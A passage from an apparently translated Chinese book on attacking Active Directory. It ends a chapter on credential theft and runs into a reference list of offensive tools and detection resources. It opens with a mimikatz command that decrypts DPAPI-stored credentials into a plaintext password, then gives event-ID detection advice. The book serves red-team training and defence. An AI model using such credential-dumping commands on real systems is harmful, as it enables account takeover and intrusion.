    mimikatz.exe "dpapi::cred /in: C:\Users\khal.drogo\AppData\Local\Microsoft\Credentials\value_from_step_1 /masterkey:key_value_from_step_4"
    ```

可以在以下截图中看到命令执行的结果：



图 4.25 – 明文 sa 密码

该技术可以通过命令行审计进行检测，从而生成事件 ID 4688，标记恶意工具的使用。更好的选择是启用对象审计，检查事件 ID 4662，查看对象类型（**SecretObject**）、对象名称（***UPKEY***）和访问掩码（**0x2**）的值。

简单提一下，通过 DCSync 也可以导出备份密钥。需要在 Active Directory 中找到该密钥的域对象 GUID 以进一步导出。

# 总结

本章介绍了可以帮助您获取凭证（无论是明文形式还是哈希形式）的工具和技术。获取这些敏感数据是攻击 Active Directory 时向前推进的关键步骤。我们还讨论了 OpSec 考虑因素以及可能的缓解/检测选项。

在下一章中，我们将介绍域内以及森林之间的横向移动。我们将重点讨论中继和各种类型的通行证攻击，最后介绍 Kerberos 委托滥用和森林之间的横向移动。

# 参考资料

1.  内部独白攻击 – 在不接触 LSASS 的情况下获取 NTLM 哈希值: [`github.com/eladshamir/Internal-Monologue`](https://github.com/eladshamir/Internal-Monologue)

1.  预先创建的计算机帐户研究: [`www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/`](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/)

1.  利用 GPP: [`adsecurity.org/?p=2288`](https://adsecurity.org/?p=2288)

1.  CrackMapExec: [`github.com/Porchetta-Industries/CrackMapExec`](https://github.com/Porchetta-Industries/CrackMapExec)

1.  Kerbrute: [`github.com/ropnop/kerbrute`](https://github.com/ropnop/kerbrute)

1.  DomainPasswordSpray: [`github.com/dafthack/DomainPasswordSpray`](https://github.com/dafthack/DomainPasswordSpray)

1.  NTLM 中继: [`en.hackndo.com/ntlm-relay/`](https://en.hackndo.com/ntlm-relay/)

1.  Responder: [`github.com/lgandx/Responder`](https://github.com/lgandx/Responder)

1.  收集 NetNTLM: [`www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/`](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/)

1.  强制身份验证方法: [`github.com/p0dalirius/windows-coerced-authentication-methods`](https://github.com/p0dalirius/windows-coerced-authentication-methods)

1.  SpoolSample: [`github.com/leechristensen/SpoolSample`](https://github.com/leechristensen/SpoolSample)

1.  PetitPotam: [`github.com/topotam/PetitPotam`](https://github.com/topotam/PetitPotam)

1.  WebClient 服务扫描器: [`github.com/Hackndo/WebclientServiceScanner`](https://github.com/Hackndo/WebclientServiceScanner)

1.  远程启用 WebClient 服务: [`dtm.uk/exploring-search-connectors-and-library-files-on-windows/`](https://dtm.uk/exploring-search-connectors-and-library-files-on-windows/)

1.  ShadowCoerce: [`github.com/ShutdownRepo/ShadowCoerce`](https://github.com/ShutdownRepo/ShadowCoerce)

1.  DFSCoerce: [`github.com/Wh04m1001/DFSCoerce`](https://github.com/Wh04m1001/DFSCoerce)

1.  Kerberos: [`en.hackndo.com/kerberos/`](https://en.hackndo.com/kerberos/)

1.  Kerberos 图解：[`learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/b4af186e-b2ff-43f9-b18e-eedb366abf13`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/b4af186e-b2ff-43f9-b18e-eedb366abf13)

1.  ASREQRoast: [`dumpco.re/blog/asreqroast`](https://dumpco.re/blog/asreqroast)

1.  Pcredz: [`github.com/lgandx/PCredz`](https://github.com/lgandx/PCredz)

1.  Hashcat: [`hashcat.net/hashcat/`](https://hashcat.net/hashcat/)

1.  Rubeus: [`github.com/GhostPack/Rubeus`](https://github.com/GhostPack/Rubeus)

1.  Kerberoast 与 OpSec 结合使用：[`m365internals.com/2021/11/08/kerberoast-with-opsec/`](https://m365internals.com/2021/11/08/kerberoast-with-opsec/)

1.  KerberOPSEC: [`github.com/Luct0r/KerberOPSEC`](https://github.com/Luct0r/KerberOPSEC)

1.  LAPS 部署：[`theitbros.com/deploying-local-administrator-password-solution-laps-in-active-directory/`](https://theitbros.com/deploying-local-administrator-password-solution-laps-in-active-directory/)

1.  LAPSToolkit: [`github.com/leoloobeek/LAPSToolkit`](https://github.com/leoloobeek/LAPSToolkit)

1.  Get-LAPSPasswords: [`github.com/kfosaaen/Get-LAPSPasswords`](https://github.com/kfosaaen/Get-LAPSPasswords)

1.  DSInternals: [`github.com/MichaelGrafnetter/DSInternals`](https://github.com/MichaelGrafnetter/DSInternals)

1.  GMSAPasswordReader: [`github.com/rvazarkar/GMSAPasswordReader`](https://github.com/rvazarkar/GMSAPasswordReader)

1.  gMSADumper: [`github.com/micahvandeusen/gMSADumper`](https://github.com/micahvandeusen/gMSADumper)

1.  导出域凭据：[`github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#dumping-ad-domain-credentials`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#dumping-ad-domain-credentials)

1.  DCSYNCMonitor: [`github.com/shellster/DCSYNCMonitor`](https://github.com/shellster/DCSYNCMonitor)

1.  通过 ETW 检测 DCSync 攻击：[`www.netero1010-securitylab.com/detection/dcsync-detection`](https://www.netero1010-securitylab.com/detection/dcsync-detection)

# 进一步阅读

以下资源将帮助你深入了解本章涵盖的攻击内容：

+   WebDAV 滥用及进一步攻击路径的详细解析：[`pentestlab.blog/2021/10/20/lateral-movement-webclient/`](https://pentestlab.blog/2021/10/20/lateral-movement-webclient/)

+   AS-REP 烤制过程中生成的流量样本和事件 ID 的精彩解析：[`rioasmara.com/2020/07/04/kerberoasting-as-req-pre-auth-vs-non-pre-auth/`](https://rioasmara.com/2020/07/04/kerberoasting-as-req-pre-auth-vs-non-pre-auth/)

+   一篇重点讲解检测和防止 AS-REP 攻击的博客文章：[`blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/`](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/)

+   关于如何在该领域实现和滥用 gMSA 的逐步指南：[`www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/`](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/)

+   *Cube0x0*发布的关于 gMSA 密码的 NTLM 转发博客文章：[`cube0x0.github.io/Relaying-for-gMSA/`](https://cube0x0.github.io/Relaying-for-gMSA/)
